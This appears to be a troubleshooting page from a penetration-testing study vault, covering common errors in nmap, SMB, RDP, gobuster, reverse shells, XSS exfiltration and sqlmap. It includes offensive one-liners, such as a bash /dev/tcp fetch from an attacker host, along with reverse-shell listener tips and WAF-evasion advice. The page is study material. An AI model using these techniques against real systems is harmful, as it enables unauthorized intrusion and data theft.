

---
tags:
  - troubleshooting
  - errors
  - reference
  - beginner
  - index
---

# ⚠️ Common Errors & Troubleshooting

> [!abstract] What this is
> The errors beginners hit most, what they actually mean, and the fix. When something "doesn't work", search this page first (Ctrl/Cmd+F).



---

## 🌐 Networking / connection

> [!danger] `No route to host` / `Connection timed out`
> **Cause:** You can't reach the target at all.
> **Fix:**
> ```bash
> ping $IP                    # is it alive?
> ip a | grep tun0            # are you connected to the VPN?
> ```
> If ping fails but it's a real target, the host may block ICMP — add `-Pn` to nmap.

> [!danger] `Connection refused`
> **Cause:** You reached the host, but **nothing is listening on that port** (or it closed).
> **Fix:** Re-scan to confirm the port is actually open. For reverse shells, make sure your `nc` listener is running **before** you trigger the payload, and that `LPORT` matches.

> [!warning] Reverse shell never connects back
> - Is your listener up? `nc -lvnp 4444`
> - Is `LHOST` your **VPN IP (tun0)**, not your home IP? `ip a | grep tun0`
> - Try a common allowed port: **443** or **53** (firewalls often allow these outbound).
> - Try a different shell type (bash vs nc vs python) — not all are installed on the target.

---

## 🔍 Nmap

> [!danger] `You requested a scan type which requires root privileges`
> **Cause:** SYN scan (`-sS`), UDP (`-sU`), and OS detection need raw sockets.
> **Fix:** Add `sudo`:
> ```bash
> sudo nmap -sS -p- $IP
> ```

> [!warning] Scan says "host seems down"
> The host blocks ping. Skip host discovery:
> ```bash
> sudo nmap -Pn -p- $IP
> ```

> [!warning] Nmap is painfully slow
> Add `--min-rate 5000` (send faster) and scan in stages: all ports first, then `-sCV` only on the open ones.

---

## 📁 SMB

> [!danger] `NT_STATUS_ACCESS_DENIED`
> **Cause:** You need valid credentials for that share/action.
> **Fix:** Try a null session first (`-N`), then known creds: `smbclient //$IP/share -U user`.

> [!danger] `protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED`
> **Cause:** Modern smbclient refuses old SMBv1.
> **Fix:** Force an older protocol:
> ```bash
> smbclient -L //$IP/ -N --option='client min protocol=NT1'
> ```

> [!danger] `NT_STATUS_LOGON_FAILURE`
> Wrong username/password. Re-check creds; try `''` empty, or `guest` with no password.

> [!warning] `smbclient` silently uses your local Kali username
> Running `smbclient //$IP/share -c 'put file'` with no `-N`/`-U` prompts for a password but authenticates as **your local Kali account name** — if that account doesn't exist on the target, you get `NT_STATUS_ACCESS_DENIED` even though the target *does* accept anonymous access. Always be explicit: `-N` for a null/anonymous session, or `-U user%pass` for known creds.

---

## 🖥️ RDP (xfreerdp)

> [!danger] `rdesktop` fails to connect at all
> Windows 11 (and any non-domain-joined target with NLA enabled, the default) rejects `rdesktop`'s auth handshake. Use `xfreerdp` instead — see [[🧰 Command Cheat Sheet]] for the full flag reference.

> [!warning] Common xfreerdp gotchas beyond the rdesktop swap
> - **Cert warning blocks connection** → add `/cert:ignore`.
> - **Can't paste text/commands into the session** → reconnect with `/clipboard`, or serve a `.txt` from Kali and open/copy it from a browser inside the VM instead.
> - **Need to move files in/out** → `/drive:kali,/home/user` maps a local folder to `\\tsclient\kali` inside the session.
> - **Laggy/choppy session** → `/dynamic-resolution /gfx:AVC420` (or drop `/bpp:16` for lower color depth on a slow link).
> - **Session drops immediately after connecting** → double-check the username/password; a typo often disconnects instead of prompting to retry.

---

## 🌐 Web / gobuster

> [!danger] gobuster: `wordlist file does not exist`
> **Fix:** Point at a real path. Find wordlists:
> ```bash
> ls /usr/share/wordlists/
> ls /usr/share/seclists/Discovery/Web-Content/      # install: sudo apt install seclists
> ```

> [!warning] gobuster returns everything as 200/403 (false positives)
> The app returns 200 for missing pages. Filter it:
> ```bash
> gobuster dir -u http://$IP -w list.txt -b 200,404      # blacklist status codes
> gobuster dir -u http://$IP -w list.txt --exclude-length 1234   # filter by size
> ```

> [!warning] HTTPS site: `tls: failed to verify certificate`
> Add `-k` (gobuster/curl) to ignore the self-signed cert.

> [!danger] Burp's CA cert not trusted in Firefox — HTTPS sites won't load through the proxy
> Import it once per Kali install: Firefox → Settings → **Privacy & Security** → **Certificates** → **View Certificates** → **Authorities** tab → **Import** → select `burp-cert.der` (export it first from Burp: **Proxy → Options → Import/Export CA Certificate**, or visit `http://burp` while the proxy is active and download it from there). Check "Trust this CA to identify websites" on import.

> [!warning] Third-party web scanners can't reach lab/internal IPs
> SSL Labs, securityheaders.com, Netcraft, and similar hosted scanners can only reach **public** internet targets — they will never successfully scan an OSCP lab/internal IP. Replicate the same checks locally: `curl -I`/`curl -IL` for headers, `testssl.sh`/`sslscan`/`openssl s_client -connect` for TLS. See [[🧰 Command Cheat Sheet]].

---

## 🅰️ XSS

> [!warning] Payload fires but exfil doesn't land / cookie theft fails
> - **`HttpOnly` cookie** → `document.cookie` returns nothing for that cookie; JS literally cannot read it. Look for another way to leverage the XSS (CSRF-style actions, session riding) instead of cookie theft.
> - **CSP blocks inline `<script>` or the exfil request** → check the `Content-Security-Policy` response header; a strict `script-src` blocks inline payloads, and `connect-src`/`default-src` can block your `fetch()`/`XMLHttpRequest` beacon even if the script itself executed.
> - **Cross-origin `fetch()` throws in the console but still lands** → a same-origin/CORS error in devtools doesn't always mean the request never reached your listener — check the listener/access log before assuming total failure.
> Full list: [[⚠️ Common Errors & Troubleshooting]]

---

## 🕵️ OSINT / Passive recon

> [!warning] GitHub code search returns `403` / secondary rate limit
> Unauthenticated GitHub search is aggressively rate-limited. Space out queries, or authenticate (`gh auth login` / a personal access token) for a much higher limit.

> [!warning] Google's `cache:` operator no longer works (deprecated 2024)
> Use the [Wayback Machine](https://web.archive.org) instead for a historical/cached view of a page Google indexed but the live site has since changed.

---

## 🔌 Ports / processes on Kali

> [!danger] `OSError: [Errno 98] Address already in use` / service won't bind
> **Cause:** Something is already bound to that port — usually a server you started earlier and forgot to close (or two tools defaulting to the same port).
> **Fix — find and kill it:**
> ```bash
> sudo lsof -i :80                # shows PID + process name on port 80
> sudo ss -tlnp | grep :80        # alternative, same info
> sudo kill <PID>                 # kill by PID once found
> sudo fuser -k 80/tcp            # or kill whatever's on the port in one shot
> ```
> This is a **generic pattern** that recurs constantly — the specific port/services just change:
> - WsgiDAV (`--port=80`) *and* `python3 -m http.server 80` running at once for a Windows library-files attack (see [[Obtaining code execution via Windows library files]]) — both default to port 80. Fix: keep WsgiDAV on `80`, the payload server on `8000`, and point the `.lnk`'s download cradle at `:8000` to match.
> - `impacket-smbserver` failing to start because Kali's **own** `smbd` service already owns port 445 — check with `sudo ss -tlnp | grep :445`, stop it with `sudo systemctl stop smbd`, or just use a Python `http.server` instead if SMB isn't required.
> - Nessus's web UI unreachable on `:8834` despite `nessusd` supposedly running — confirm with `sudo systemctl status nessusd` and `sudo ss -tlnp | grep 8834` before assuming it's a firewall issue.
> - Any custom listener (`nc -nvlp <port>`, a phishing credential-capture server, a second `http.server`) silently failing the same way — same fix every time.

---

## 🐚 Shells

> [!warning] Shell is "dumb" — no tab-complete, Ctrl+C kills it, arrow keys print escape junk
> Upgrade it to a proper TTY:
> ```bash
> python3 -c 'import pty;pty.spawn("/bin/bash")'   # on target
> # Ctrl+Z to background
> stty raw -echo; fg                                # on kali
> export TERM=xterm                                 # on target
> ```
> Full steps in [[🧰 Command Cheat Sheet]].

> [!danger] `bash: command not found` after getting a shell
> Limited PATH. Use full paths (`/bin/bash`, `/usr/bin/python3`) or set:
> ```bash
> export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
> ```

---

## 📤 File transfer

> [!danger] `wget: command not found` on target
> Try alternatives that are usually present:
> ```bash
> curl http://$LHOST/file -o file
> # or pure bash:
> exec 3<>/dev/tcp/$LHOST/80; echo -e "GET /file HTTP/1.0\n" >&3; cat <&3
> ```

> [!warning] Downloaded script won't run: `Permission denied`
> Make it executable and/or run from a writable dir like `/tmp`:
> ```bash
> chmod +x /tmp/script.sh && /tmp/script.sh
> ```

---

## 💉 sqlmap / exploitation

> [!warning] sqlmap finds nothing but you suspect SQLi
> - Add `--level=5 --risk=3` (more aggressive)
> - Provide the full request: save it from Burp and use `-r request.txt`
> - Specify the DB: `--dbms=mysql`
> - A WAF/filter stripping SQL keywords is a **different** failure mode than "not trying hard enough" — reach for `--tamper=space2comment` (or another matching tamper script) instead of just cranking `--level`/`--risk` higher.

---

## 🧠 General mindset

> [!tip] When truly stuck
> 1. Re-read the error **literally** — it usually says what's wrong.
> 2. Go back to enumeration (see the checklist in [[📖 Start Here — Beginner Guide]]).
> 3. Google the **exact** error string in quotes.
> 4. Search `"<service> <version> exploit"` on [Exploit-DB](https://www.exploit-db.com).

---

## Related
- [[📖 Start Here — Beginner Guide]]
- [[🧰 Command Cheat Sheet]]
- [[🔣 Encoding Reference]]

> [!info] Section: [[🏠 Home]]
